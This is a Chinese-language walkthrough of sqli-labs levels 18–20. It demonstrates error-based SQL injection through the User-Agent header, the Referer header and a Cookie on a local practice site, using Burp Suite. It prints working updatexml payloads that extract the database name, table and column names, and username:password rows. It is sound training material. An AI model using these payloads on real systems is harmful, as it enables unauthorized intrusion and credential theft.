# Chapter-1-靶场关卡标题术语解析

Less-18:POST-Header Injection-Uagent field-Error based

Less-19:POST-Header Injection-Referer field-Error based

Less-20:POST-Cookie injections-Uagent field-error based

- **POST**：请求方法为 POST（登录表单提交）

- **Header Injection**：HTTP 请求头注入，注入点不在 GET/POST 表单，而在 HTTP 请求头。服务端读取 HTTP 请求头里的数据，未过滤直接拼入 SQL 语句。

- **Cookie injections**：Cookie 注入，注入点在 Cookie 中的uname参数。Cookie 内容用户可控，直接拼接进 SQL，不需要 URL 参数、POST 表单传参。

- **Uagent field**：Uagent = User-Agent，注入点是User-Agent请求头字段

- **Referer field**：注入点是Referer请求头（记录来源页面的头）

- **Error based**：报错注入，利用 MySQL 报错函数（updatexml/extractvalue），借助数据库返回的错误信息提取数据
核心：登录成功后服务端把 User-Agent 直接插入 INSERT 语句，可控造成注入

>注：注入点不在表单，在 HTTP 请求头 User-Agent；表单必须提交正确账号密码登录成功，才会执行 INSERT 语句。

# Chapter-2-靶场实操完整SQLi流程

## Less-18

>前置准备：因为Less-17对security库users表中账号对应的密码做了修改，故需重置密码

原理：提交 POST 表单 uname/passwd，先执行 SELECT 校验账号密码；
账号密码正确 → 进入 if 分支，执行 INSERT 语句，把 User-Agent 存入 uagents 表；
'$uagent' 单引号包裹，修改 Burp 里 User-Agent 头，插入单引号闭合，写入 updatexml 报错 payload；
执行 INSERT 时触发 MySQL 报错，回显数据。

### 步骤一：

`localhost/Less-18/`



### 步骤二：表单输入账号密码



准备提交，打开 Burp 拦截（Intercept on）



### 步骤三：捕获 POST 数据包

点击页面 Submit，Burp 抓到 POST 请求包。



将User-Agent的原有内容删除，改成payload

### 步骤四：获取数据库名

**payload:**`' or updatexml(1,concat(0x7e,database()),1) or '1'='1`

点 Forward 放行数据包。



### 步骤五：爆表名

**payload:**`' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1) or '1'='1`



### 步骤六：爆 users 表字段名

**payload:**`' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),1) or '1'='1`



### 步骤七：读取 users 表数据

**payload:**`' or updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1)),1) or '1'='1`



第二条`limit 1,1`



以此类推

## Less-19

和 Less18 高度相似，只是注入点从 User-Agent → Referer 请求头



>前置条件：同样需要账号密码登录成功，才执行 INSERT 语句

业务场景：网站记录访客来源页面（Referer）存入数据库，直接拼接原始 Referer 内容进 SQL，无过滤，造成头部注入。

## Less-20

同 18、19 体系，注入点转移到Cookie，依旧需要登录成功触发 SQL。

需要先登录成功一次后，服务端才会在响应头设置 Cookie：uname=admin
后续请求会自动带上这个 Cookie，注入点就是uname这个 Cookie 值。后续吧uname=后面的内容替换为payload即可



也就是需要在不注入Payload的情况下放行一次，或者说初始的时候不拦截，就正常登录一次，从第二次才开始拦截

Less-18和Less-19的SQL语句类型是INSERT，Less-20的SQL语句类型是SELECT，所以Less-20的注释符用#即可

业务场景：网站把 Cookie 里面的用户身份字段直接拼入 SQL 查询，未做过滤，产生 Cookie 注入漏洞。



Less-20的页面显示内容与前面有些不同，但获得的有效信息是相同的